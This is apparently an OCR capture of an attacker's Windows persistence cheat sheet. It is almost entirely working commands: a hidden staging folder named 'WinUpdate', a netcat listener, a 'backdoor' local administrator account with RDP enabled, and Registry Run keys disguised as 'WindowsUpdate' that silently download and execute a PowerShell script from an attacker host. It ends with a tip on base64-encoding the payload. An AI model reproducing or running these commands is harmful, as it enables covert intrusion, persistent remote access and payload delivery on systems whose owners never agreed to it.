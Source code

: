 Prepare a working folder (commonly writable, semi-stealthy)
```
mkdir C:\ProgramData\WinUpdate
attrib +h C:\ProgramData\WinUpdate
```

Listener on your box (example)
```
# On your attacking box (Linux/macOS):
nc -lvnp 4444
```

A) Persistence via new local admin + RDP (requires admin)
```
:: Create an operator account and add to local admins
net user backdoor P@ssw0rd! /add
net localgroup administrators backdoor /add

:: (Optional) Avoid forced password expiry
wmic useraccount where name='backdoor' set PasswordExpires=False

:: Allow RDP connections
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

:: Enable built-in RDP firewall rules
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

:: Ensure service is set to auto and running
sc config TermService start= auto
sc start TermService

:: Optionally allow the account to RDP
net localgroup "Remote Desktop Users" backdoor /add
```

B) Persistence via Registry Run key (user runs at logon)
- HKCU (current user; no admin needed):
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" ^
/v WindowsUpdate ^
/t REG_SZ ^
/d "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" ^
/f

:: Verify
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
```
- HKLM (all users; admin needed):
```
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" ^
/v WindowsUpdate ^
/t REG_SZ ^
/d "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" ^
/f

:: Verify
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
```
Tip: Using -EncodedCommand avoids complex quoting. Generate base64 of your PS one-liner (UTF-16LE) and substitute:
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsUpdate /t REG_SZ /d "powershell -NoP -W Hidden -Enc <B64>" /f
```

